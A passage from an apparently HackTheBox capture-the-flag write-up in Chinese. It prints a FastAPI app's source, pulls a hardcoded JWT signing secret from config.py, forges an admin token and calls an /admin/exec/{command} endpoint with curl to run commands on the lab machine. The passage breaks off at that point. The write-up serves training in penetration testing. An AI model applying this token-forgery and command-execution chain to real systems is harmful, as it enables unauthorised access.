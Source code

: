 ```json
  "file": "import asyncio\n\nfrom fastapi import FastAPI, APIRouter, Query, HTTPException, Request, Depends\nfrom fastapi_contrib.common.responses import UJSONResponse\nfrom fastapi import FastAPI, Depends, HTTPException, status\nfrom fastapi.security import HTTPBasic, HTTPBasicCredentials\nfrom fastapi.openapi.docs import get_swagger_ui_html\nfrom fastapi.openapi.utils import get_openapi\n\n\n\nfrom typing import Optional, Any\nfrom pathlib import Path\nfrom sqlalchemy.orm import Session\n\n\n\nfrom app.schemas.user import User\nfrom app.api.v1.api import api_router\nfrom app.core.config import settings\n\nfrom app import deps\nfrom app import crud\n\n\napp = FastAPI(title=\"UHC API Quals\", openapi_url=None, docs_url=None, redoc_url=None)\nroot_router = APIRouter(default_response_class=UJSONResponse)\n\n\n@app.get(\"/\", status_code=200)\ndef root():\n    \"\"\"\n    Root GET\n    \"\"\"\n    return {\"msg\": \"UHC API Version 1.0\"}\n\n\n@app.get(\"/api\", status_code=200)\ndef list_versions():\n    \"\"\"\n    Versions\n    \"\"\"\n    return {\"endpoints\":[\"v1\"]}\n\n\n@app.get(\"/api/v1\", status_code=200)\ndef list_endpoints_v1():\n    \"\"\"\n    Version 1 Endpoints\n    \"\"\"\n    return {\"endpoints\":[\"user\", \"admin\"]}\n\n\n@app.get(\"/docs\")\nasync def get_documentation(\n    current_user: User = Depends(deps.parse_token)\n    ):\n    return get_swagger_ui_html(openapi_url=\"/openapi.json\", title=\"docs\")\n\n@app.get(\"/openapi.json\")\nasync def openapi(\n    current_user: User = Depends(deps.parse_token)\n):\n    return get_openapi(title = \"FastAPI\", version=\"0.1.0\", routes=app.routes)\n\napp.include_router(api_router, prefix=settings.API_V1_STR)\napp.include_router(root_router)\n\ndef start():\n    import uvicorn\n\n    uvicorn.run(app, host=\"0.0.0.0\", port=8001, log_level=\"debug\")\n\nif __name__ == \"__main__\":\n    # Use this for debugging purposes only\n    import uvicorn\n\n    uvicorn.run(app, host=\"0.0.0.0\", port=8001, log_level=\"debug\")\n"
}
```

格式化后的代码

```python
...
from app.schemas.user import User
from app.api.v1.api import api_router
from app.core.config import settings
...
```

再通过 `import` 语句得到其他 python 代码，重点在 `app/core/config.py` 中

```python
...
JWT_SECRET: str = "SuperSecretSigningKey-HTB"
...
```

使用 `jwt.io` 修改 `JWT`

![20240421175753](https://cfproxy.iselt.top/https://raw.githubusercontent.com/iselt/ImageBed/main/20240421175753.png)

## 取得立足点

使用新的 `JWT` 访问 `/docs`，尝试调用 `/admin/exec/{command}` 接口

```bash
curl -X 'GET' \
  'http://10.10.11.161/api/v1/admin/exec/id' \
    -H 'Authorization: Bearer ...
    ...
```
